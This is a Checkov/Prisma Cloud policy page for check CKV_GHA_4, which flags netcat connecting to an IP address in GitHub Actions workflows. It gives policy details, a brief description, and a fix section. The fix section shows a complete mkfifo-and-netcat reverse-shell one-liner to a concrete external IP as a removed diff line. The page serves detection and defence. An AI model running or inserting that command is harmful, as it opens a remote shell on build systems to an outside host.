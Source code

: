 == GitHub Actions Netcat is being used with IP address
// Suspicious use of netcat with IP address



=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| d375f163-8b32-4b0c-91a8-baf491c9b6a6

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/tree/master/checkov/github_actions/checks/job/ReverseShellNetcat.py[CKV_GHA_4]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GithubAction

|=== 

=== Description 

Netcat in combination with an IP address can be used to establish a connection to an external computer or server. This can be used to open up backdoor access or exfiltrate data.

=== Fix - Buildtime
 

*GitHub Actions* 


Block code and remove code that attempts to make a connection over a network.
[source,yaml]
----
-         rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|netcat 34.159.16.75 32032 >/tmp/f
----
----
----
